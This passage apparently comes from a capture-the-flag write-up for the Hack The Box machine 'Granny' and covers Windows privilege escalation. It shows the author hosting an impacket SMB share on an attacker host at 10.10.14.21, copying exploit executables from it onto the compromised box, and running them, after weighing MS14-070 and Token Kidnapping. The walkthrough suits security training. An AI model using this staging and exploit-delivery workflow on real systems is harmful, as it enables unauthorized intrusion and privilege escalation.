 And there are quite a few exploits. I’m looking at MS14-070, and Token Kidnapping.

I run netstat -nat to see what possibilities I have of uploading the exploit.

```
C:\WINDOWS\Temp>netstat -nat
netstat -nat

Active Connections

  Proto  Local Address          Foreign Address        State           Offload State

  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:1025           0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:1026           0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:5859           0.0.0.0:0              LISTENING       InHost      
  TCP    10.129.85.227:80       10.10.14.21:44626      CLOSE_WAIT      InHost      
  TCP    10.129.85.227:80       10.10.14.21:44628      CLOSE_WAIT      InHost      
  TCP    10.129.85.227:139      0.0.0.0:0              LISTENING       InHost      
  TCP    10.129.85.227:1054     10.10.14.21:1337       CLOSE_WAIT      InHost      
  TCP    10.129.85.227:1055     10.10.14.21:1337       ESTABLISHED     InHost      
  TCP    127.0.0.1:1028         0.0.0.0:0              LISTENING       InHost      
  UDP    0.0.0.0:445            *:*                    
  UDP    0.0.0.0:500            *:*                    
  UDP    0.0.0.0:1027           *:*                    
  UDP    0.0.0.0:4500           *:*                    
  UDP    10.129.85.227:123      *:*                    
  UDP    10.129.85.227:137      *:*                    
  UDP    10.129.85.227:138      *:*                    
  UDP    127.0.0.1:123          *:*                    
  UDP    127.0.0.1:1029         *:*                    
```

445 is most likely SMB. So let’s try to open a smb server to upload files.

```
kali@kali:~/htb/Granny$ sudo impacket-smbserver smb .
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Smb is the name of the smb share, and the “.” just means to host it from the current directory.

I then run `copy \\10.10.14.21\smb\winPEAS.exe winPEAS.exe` on the box and download the file:

```
C:\WINDOWS\Temp>copy \\10.10.14.21\smb\37755.exe 37755.exe
copy \\10.10.14.21\smb\37755.exe 37755.exe
        1 file(s) copied.

C:\WINDOWS\Temp>37755.exe
37755.exe
Program too big to fit in memory

C:\WINDOWS\Temp>copy \\10.10.14.21\smb\35936.exe 35936.exe
copy \\10.10.14.21\smb\35936.exe 35936.exe
        1 file(s) copied.

C:\WINDOWS\Temp>35936.exe
35936.exe
```